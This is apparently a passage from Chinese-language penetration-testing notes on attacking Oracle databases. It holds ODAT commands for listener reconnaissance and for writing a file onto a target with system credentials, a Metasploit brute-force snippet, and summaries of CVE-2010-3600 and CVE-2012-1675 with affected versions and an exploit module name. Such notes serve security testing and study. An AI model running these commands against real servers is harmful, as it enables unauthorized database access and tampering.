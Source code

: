     # 信息收集
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --ping
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --version
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --status

    # 写文件
    echo "Hacked By Gerh" > /tmp/File-Test.txt
    python3 odat.py dbmsxslprocessor -s 192.168.1.254 -p 1521 -d ORA19C -U system -P Test1234 --putFile "/tmp" "File-Test.txt" "/tmp/File-Test.txt"
    ```

**MSF 爆破**
```bash
use admin/oracle/oracle_login
set RHOSTS [IP]
set SID [SID]
run
```

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- 简介

    Oracle Database Server 11.1.0.7 和 11.2.0.1 版本，以及 Enterprise Manager Grid Control 10.2.0.5 版本的 Client System Analyzer 组件中存在未明漏洞。远程攻击者可借助未知向量影响机密性、完整性和可用性。

- 影响版本
    - Oracle:Enterprise_manager_grid_control:10.2.0.5:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:11.2.0.1:::

- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 简介

    Oracle Database Server 在实现上存在可允许攻击者向远程“TNS Listener”组件处理的数据投毒的漏洞。攻击者可利用此漏洞将数据库服务器的合法“TNS Listener”组件中的数据转向到攻击者控制的系统，导致控制远程组件的数据库实例，造成组件和合法数据库之间的攻击者攻击、会话劫持或拒绝服务攻击。

- 影响版本
    - Oracle:Database_server:11.2.0.4:::
    - Oracle:Database_server:11.2.0.3:::
    - Oracle:Database_server:11.2.0.2:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:10.2.0.5:::

- 文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)
    - [ORACLE TNS Listener远程注册投毒（Poison Attack）漏洞](https://blog.csdn.net/wengtf/article/details/46632405)
